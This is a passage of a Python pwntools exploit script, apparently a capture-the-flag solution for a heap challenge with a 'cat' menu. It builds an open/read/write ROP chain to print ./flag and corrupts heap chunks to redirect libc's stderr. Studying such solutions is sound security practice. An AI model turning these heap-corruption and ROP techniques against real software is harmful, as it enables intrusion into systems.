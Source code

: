 ```python
payload += p64(pop_rsi)
payload += p64(0)
payload += p64(pop_rax)
payload += p64(2)  # syscall code for open
payload += p64(syscall)

# read file ./flag to heap
payload += p64(pop_rdi)
payload += p64(0)
payload += p64(pop_rsi)
payload += p64(heap_base + 0x500)
payload += p64(pop_rdx_rbx)
payload += p64(0x100)
payload += p64(0)
payload += p64(base + libc.symbols['read'])

# write content in ./flag
payload += p64(pop_rdi)
payload += p64(1)
payload += p64(pop_rsi)
payload += p64(heap_base + 0x500)
payload += p64(pop_rdx_rbx)
payload += p64(0x100)
payload += p64(0)
payload += p64(base + libc.symbols['write'])

payload = payload.ljust(0x400) + b'./flag\x00'

add_cat(6, 0x430, b'colin')
add_cat(7, 0x450, b'colin')
add_cat(8, 0x430, b'colin')
add_cat(9, 0x440, payload)
add_cat(10, 0x430, b'colin')
delete_cat(6)
delete_cat(7)

add_cat(11, 0x460, b'\x00' * 0x430 + p64(0) + p64(0x461))
add_cat(12, 0x420, b'\x00')
delete_cat(7)

add_cat(13, 0x450, b'\x00' * 0x20 + p64(0) + p64(0x1101))
delete_cat(7)
add_cat(14, 0x460, b'\x00')
delete_cat(9)
delete_cat(12)
delete_cat(14)

# delete_cat(11)
edit_cat(7, p64(base + 0x21A0E0) * 2 + p64(0) + p64(base + libc.symbols['stderr'] - 0x20) + p64(0) + p64(0x201))
io.sendlineafter(b'mew mew mew~~~~~~', b'CAT | r00t QWB QWXF\xFF$')  # enter the menu
io.sendlineafter(b'plz input your cat choice:\n', b'1')
io.sendlineafter(b'plz input your cat idx:\n', b'15')
# gdb.attach(io)
# time.sleep(1)
io.sendlineafter(b'plz input your cat size:\n', b'1129')
io.interactive()
```
